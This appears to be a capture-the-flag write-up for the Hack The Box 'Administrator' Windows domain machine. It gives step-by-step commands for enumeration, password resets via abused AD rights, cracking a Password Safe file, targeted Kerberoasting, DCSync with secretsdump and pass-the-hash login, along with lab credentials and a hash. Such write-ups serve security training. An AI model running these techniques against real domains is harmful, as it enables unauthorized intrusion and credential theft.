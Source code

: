 # HTB - Administrator

**IP Address:** `10.10.11.42`  
**OS:** Windows  
**Difficulty:** Hard  
**Tags:** #SMB, #WinRM, #BloodHound, #ShadowCredentials, #RPC, #PasswordCracking, 
#DCSync

**Extra initial information:**
- User: olivia
- Password: ichliebedich

---

## 1. Initial Enumeration

### 1.1 Ping

```bash
ping 10.10.11.42
```

✅ Host is up

---

### 1.2 Port Scanning

Basic port scan:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.42 -oG allPorts
```

Deeper scan with script and XML output:

```bash
nmap -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,51918,54283,54288,54302,54310 -sCV 10.10.11.42 -oN targeted -oX targetedXML
```

---

## 2. SMB and WinRM Access

```bash
crackmapexec smb 10.10.11.42
```

Edit `/etc/hosts` to map the domain:

```
10.10.11.42 administrator.htb
```

Verified user login with NetExec:

```bash
netexec smb 10.10.11.42 -u olivia -p ichliebedich
```

Login success, but user is not in the **Remote Management Users** group.

However, WinRM is open:

```bash
evil-winrm -i 10.10.11.42 -u olivia -p 'ichliebedich'
```

✅ Access as `olivia`

---

## 3. Enumeration

List users:

```bash
net user
```

RPC enumeration using Olivia’s credentials:

```bash
rpcclient -U "olivia%ichliebedich" 10.10.11.42
```

Dump domain users:

```bash
rpcclient -U "olivia%ichliebedich" 10.10.11.42 -c 'enumdomusers' > users.txt
cat users.txt | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sponge users.txt
```

Checked AS-REP roasting:

```bash
GetNPUsers.py -no-pass -usersfile users.txt administrator.htb/
```

No users were vulnerable.

---

## 4. BloodHound + LDAPDomainDump

Install BloodHound:

```bash
wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
tar -xvzf bloodhound-cli-linux-amd64.tar.gz
./bloodhound-cli install
```

Dump LDAP data:

```bash
ldapdomaindump -u 'administrator.htb\olivia' -p ichliebedich 10.10.11.42
```

Access domain HTML data via a local web server.

Collect BloodHound data:

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -c All --zip -ns 10.10.11.42 -d administrator.htb
```

Discovered a **GenericAll** relationship from `olivia` to `michael`.

---

## 5. Lateral Movement

Change `michael`’s password via NetExec or RPC:

```bash
net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.10.11.42
```

Used BloodHound to confirm `michael` can reset `benjamin`’s password as well:

```bash
net rpc password "benjamin" "newP@ssword2022" -U "administrator.htb"/"michael"%"newP@ssword2022" -S 10.10.11.42
```

---

## 6. File Access via SMB and FTP

Access shared files using `benjamin`:

```bash
smbmap -H 10.10.11.42 -u benjamin -p 'newP@ssword2022' -r
```

Discovered interesting file via FTP:

```bash
ftp 10.10.11.42
get Backup.psafe3
```

The file is a **Password Safe** database.

---

## 7. Cracking Password Safe

Used `pwsafe`:

```bash
pwsafe Backup.psafe3
```

Extracted hash using `pwsafe2john` and cracked with rockyou:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

✅ Password: `tekieromucho`

Logged into pwsafe and found credentials for user `emily`.

---

## 8. Privilege Escalation via Kerberoasting

Logged in as `emily` via WinRM:

```bash
evil-winrm -i 10.10.11.42 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

Used **targetedKerberoast.py**:

```bash
python3 targetedKerberoast.py -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -d administrator.htb --dc-ip 10.10.11.42
```

Cracked Ethan's TGS hash:

```bash
john hash_ethan --wordlist=/usr/share/wordlists/rockyou.txt
```

✅ Password: `limpbizkit`

---

## 9. DCSync Attack → Domain Admin

Performed DCSync using Ethan’s credentials:

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@10.10.11.42
```

✅ Retrieved Administrator NTLM hash

Logged in as Administrator:

```bash
evil-winrm -i 10.10.11.42 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

✅ Root access obtained  
🏁 **Root flag retrieved**

---

# ✅ MACHINE COMPLETE
